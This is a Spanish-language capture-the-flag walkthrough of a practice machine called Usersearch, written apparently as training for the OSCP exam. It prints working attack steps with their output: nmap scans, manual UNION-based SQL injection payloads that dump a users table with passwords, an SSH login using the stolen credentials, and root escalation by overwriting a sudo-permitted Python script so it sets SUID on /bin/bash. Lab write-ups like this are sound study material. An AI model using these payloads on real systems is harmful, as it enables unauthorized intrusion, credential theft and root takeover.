

# Máquina Usersearch

#### OS: Linux
#### Tier: Medium
#### IP de ejemplo: 172.17.0.2

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.17.0.2
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
dos puertos abiertos: 22 con SSH y 80 con un servidor http. Verifiquémoslo con los scripts básicos de nmap (-sC) y tratemos de detectar la versión para cada servicio con -sV 
```
nmap -sCV -p22,80 -T4 172.17.0.2
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:6b:ef:51:9c:00:c4:d4:24:17:90:be:6d:0a:26:79 (ECDSA)
|_  256 62:97:b5:91:0c:b0:8f:06:bd:ad:e3:d5:14:3d:f1:74 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: User Search
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

parece que en el puerto 80 se está alojando una web. Al entrar vemos lo siguiente:


"Avoid tools that automate; you learn more by doing it manually."
esto indica a inyección SQL, de forma manual en lugar de con sqlmap. Lo comprobamos al poner el input test' y recibimos "Unauthorized query". Si ponemos admin recibimos su contraseña, pero no es un usuario válido de ssh. Aun así, podemos ver donde se refleja el output. Esto será útil más adelante



vamos a iniciar la inyección SQL manual tratando de listar el número de columnas de la tabla actual usando order by:
```
test' order by 4-- -
```
no se representa nada. Probemos 5. Lo mismo, bajamos a 3 y ya vemos "No results found"; hay 3 columnas en la tabla actual. Veamos en qué campos exactos se representa cada output
```
test' union select 1,2,3-- -
```
vemos Username: 2 - Password: 3. Esos números vienen de nuestro input. Si estamos ante una base de datos mysql deberíamos poder ver la versión con @@version.
```
test' union select 1,@@version,3-- -

Username: 10.11.6-MariaDB-0+deb12u1 - Password: 3
```

genial, ahora listemos las bases de datos
```
test' union select 1,schema_name,3 from information_schema.schemata-- -

Username: information_schema - Password: 3

Username: testdb - Password: 3
```


>merece la pena memorizar estos comandos, pues en examenes como la OSCP no se permiten herramientas automatizadas como sqlmap. 

information_schema es default de MySQL, testdb es más útil, veamos sus tablas
```
test' union select 1,table_name,3 from information_schema.tables where table_schema = 'testdb'-- -

Username: users - Password: 3
```
la tabla existente es users. Veamos sus columnas
```
test' union select 1,column_name,3 from information_schema.columns where table_name = 'users'-- -

Username: id - Password: 3

Username: username - Password: 3

Username: password - Password: 3
```

columnas: id, username y password. Vamos a dumpear las 3 a la vez
```
test' union select id,username,password from users-- -

Username: admin - Password: adminpassword

Username: user1 - Password: user1password

Username: kvzlx - Password: kvzlxpassword
```

tenemos el usuario admin, user1 y kvzlx. 

## Initial Infiltration

Este último usuario, kvzlx, no aparece en diccionarios, por lo que parece ser el óptimo para entrar por ssh

```
❯ ssh kvzlx@172.17.0.2

Password: kvzlxpassword
```

> nota: si sale un error tipo "WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED!" haz este comando: `ssh-keygen -f '/home/tu-home/.ssh/known_hosts' -R '172.17.0.2'`

```
kvzlx@7cdedc365862:~$ id
uid=1000(kvzlx) gid=1000(kvzlx) groups=1000(kvzlx)
```

> Como digo, es altamente recomendable estudiar la inyección SQL manual a fondo, especialmente esta que es tan simple, para no depender de herramientas como SqlMap, eso te diferencia de aquellos que lo lanzan sin conocimiento. Todos pueden lanzar una herramienta; no todos pueden entender lo que esta hace.

## Privilege Escalation

ahora que estamos como kvzlx en la máquina, vamos a escalar privilegios. Empezamos listando permisos a nivel de sudoers:
```
kvzlx@7cdedc365862:~$ sudo -l
Matching Defaults entries for kvzlx on 7cdedc365862:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 7cdedc365862:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```
podemos ejecutar como cualquier usuario este script, sobre el que no tenemos permisos de escritura:
```
kvzlx@7cdedc365862:~$ cat system_info.py 
import psutil


def print_virtual_memory():
    vm = psutil.virtual_memory()
    print(f"Total: {vm.total} Available: {vm.available}")


if __name__ == "__main__":
    print_virtual_memory()
```
pero como podemos eliminarlo, simplemente lo sobreescribiremos con un script propio.
```
rm system_info.py
```
```
# system_info.py 
import os
os.system("chmod 4755 /bin/bash")
```
este script, al ejecutarse como root, asigna el bit SUID a la bash
```
kvzlx@7cdedc365862:~$ sudo /usr/bin/python3 /home/kvzlx/system_info.py
```

la bash quedaría así:
```
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
si en consola sale con un color rojo brillante y la `s` de SUID, el script se ha ejecutado correctamente.
Podemos migrar a root usando `bash -p`

```
kvzlx@7cdedc365862:~$ bash -p

bash-5.2# whoami
root
```

### Resumen:
Manual SQLi -> sudo python script
